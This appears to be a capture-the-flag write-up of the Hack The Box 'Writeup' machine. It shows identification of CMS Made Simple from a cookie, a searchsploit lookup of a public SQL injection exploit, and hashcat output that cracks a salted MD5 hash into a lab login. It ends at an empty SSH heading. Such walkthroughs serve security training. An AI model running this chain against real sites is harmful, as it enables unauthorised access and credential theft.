





# 10 - HTTP

# VHost & DoS  protection



The page hints that we shouldn't run gobuster on it as the server detects and bans offenders.

# robots.txt




We can still enumerate it manually. robots.txt is a well-known place, it should always be the first place at which a pentester should look


# writeup


A  parameter is used to distinguish between the writeups. The name of the parameter is `page`, however, it doesn't seem to be vulnerable to LFI or SQLi.


# Cookie
```
GET /writeup/index.php?page=ypuffy HTTP/1.1
Host: 10.10.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.138/
DNT: 1
Connection: close
Cookie: CMSSESSID9d372ef93962=p072mflhbpj75fsf2qu12c7us2
Upgrade-Insecure-Requests: 1
Sec-GPC: 1


```


CMSSESSID is a cookie used in `CMS Made Simple`

```
┌─[user@parrot]─[10.10.14.14]─[~/htb/writeup]
└──╼ $ searchsploit cms made simple
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                    | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There is a public exploit for CMS Made Simple.


# SQL injection


The script has builtin password cracker but I believe hashcat will be faster.

# 46635.py
```py
if hashlib.md5(str(salt) + line).hexdigest() == password:
```

we are looking for `md5(salt.password)`  type of hash


# Cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/writeup]
└──╼ $ hashcat -m 20 hash  /usr/share/wordlists/rockyou.txt 

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Aug 26 20:10:43 2021 (2 secs)
Time.Estimated...: Thu Aug 26 20:10:45 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2706.1 kH/s (0.41ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4358144/14344385 (30.38%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raynerleow -> raygan96

Started: Thu Aug 26 20:10:08 2021
Stopped: Thu Aug 26 20:10:46 2021
```
* jkr:raykayjay9

# SSH
